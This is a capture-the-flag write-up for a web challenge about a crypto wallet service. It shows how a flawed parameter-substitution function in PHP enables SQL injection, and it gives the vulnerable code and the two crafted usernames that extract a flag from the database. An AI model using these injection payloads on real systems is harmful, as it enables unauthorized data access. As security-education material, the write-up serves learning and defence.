 # MortAl mage aGEnts (web, 19 solves, 315 pts)

> I want to make a crypto currency. For now, I made the secure wallet service.

> I give you the source code of its service. Can you hack this service? ☆（ゝω・）v 

> ※The database is initialized every hour.

The app's source tell us that the first flag is located in the database and we probably have to usq SQL-injection to get it:

```sql
CREATE TABLE flag1 (
    flag1 VARCHAR(255) NOT NULL
);

INSERT INTO flag1 (flag1) VALUES ('***CENSORED***'); -- Can't guess
```

The app is full of seemingly safe prepared statements:

```sql
$transactor = $app->db->fetch(
    'SELECT * FROM transactor WHERE code = :code',
    [':code' => $code]
);
```

But the implementation is buggy:

```php
public function query($sql, $param = array())
{
    $search = [];
    $replace = [];
    foreach ($param as $key => $value) {
        $search[] = $key;
        $replace[] = sprintf("'%s'", mysqli_real_escape_string($this->link, $value));
    }
    $sql = str_replace($search, $replace, $sql);
    ...
```

Precisely, if we have 2 different paremetrs and we set the first one's value to the name of the second one, things will **break**

This is the part we'll be exploiting:

```php
$notes = sprintf('%s remitted', $_SESSION['user_id']);
...
$app->db->query(
    "INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, ${amount}, :notes)",
    [':user_id' => $dstUsers['user_id'], ':notes' => $notes]
);
```

This is a good query because we control pretty easily both arguments that get passed to the function.

If we know set our user id to `ABC:notesDEF`, the final query will look like:


```sql
INSERT INTO account (user_id, debit, credit, notes) VALUES ('ABC'ABC:notesDEF remitted'DEF', 0, ${amount}, 'ABC:notesDEF remitted')
```

So it's pretty clear we have a injection in the `ABC` part, we'll use it to get the flag:

We're gonna need 2 accounts:

first: `,1000000,100000000,(select(flag1)from(flag1)));#:notes`

second: `,1000000,100000000,(select(flag1)from(flag1)));#`

First one will trigger the sqli and create an account for the second user that contains the flag.

We'll use the second user just to read the flag which will show up in our dashboard.

